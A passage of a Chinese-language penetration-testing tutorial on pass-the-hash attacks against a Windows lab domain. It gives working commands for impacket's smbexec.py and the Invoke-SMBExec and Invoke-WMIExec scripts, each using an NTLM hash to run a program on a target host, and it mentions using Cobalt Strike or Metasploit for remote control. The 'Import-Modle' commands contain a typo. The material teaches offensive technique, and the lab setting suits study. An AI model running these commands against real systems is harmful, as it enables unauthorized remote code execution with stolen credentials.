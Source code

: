 ![](https://pic1.zhimg.com/v2-0a076afee1bed75d97775f6f55d5a07c_r.jpg)

### smbexec.py

smbexec.py 是 [impacket](https://link.zhihu.com/?target=https%3A//github.com/SecureAuthCorp/impacket) 里面的一个工具，在 kali 是已经预装好的，如果没有安装可以用以下命令进行安装：

```
python3 -m pip install impacket

```

发起 pth 攻击命令如下：

```
smbexec.py hack.lab/testuser@172.16.0.106 -hashes 'aad3b435b51404eeaad3b435b51404ee:de26cce0356891a4a020e7c4957afc72'

```

结果如下图：

![](https://pic4.zhimg.com/v2-81905e4a9c277c2aee6be0a8a6d04fc7_r.jpg)

### Invoke-SMBExec

当然，除了有 python 版本也有 powershell 的版本，在 [Invoke-TheHash](https://link.zhihu.com/?target=https%3A//github.com/Kevin-Robertson/Invoke-TheHash) 项目中有个脚本文件`Invoke-SMBExec.ps1`, 大家可以直接在上面进行下载

下载链接：[Invoke-SMBExec.ps1](https://link.zhihu.com/?target=https%3A//github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1)

执行命令如下：

```
Import-Modle .\Invoke-SMBExec.ps1
Invoke-SMBExec -Target 172.16.0.106 -Domain hack.lab -Username testuser -Hash de26cce0356891a4a020e7c4957afc72 -Command "calc.exe" -verbose

```

结果如下：

![](https://pic4.zhimg.com/v2-c3d20eb50e0d42a16ba0dd225276f3d3_r.jpg)

因为这款工具执行命令不会返回结果，可以使用 cs 或者 msf 的 powershell 命令进行远程上线，上面的命令执行后会在目标主机生成一个当前权限的计算器：

![](https://pic3.zhimg.com/v2-14c72982abd4ab2113943bf594009332_r.jpg)

### Invoke-WMIExec

同样是在在 [Invoke-TheHash](https://link.zhihu.com/?target=https%3A//github.com/Kevin-Robertson/Invoke-TheHash) 项目的一个脚本，叫做`Invoke-WMIExec.ps1`。

用法跟上面是一致的，只是利用的方式不相同而已：

```
Import-Modle .\Invoke-WMIExec.ps1
Invoke-WMIExec -Target 172.16.0.106 -Domain hack.lab -Username testuser -Hash de26cce0356891a4a020e7c4957afc72 -Command "calc.exe" -verbose

```
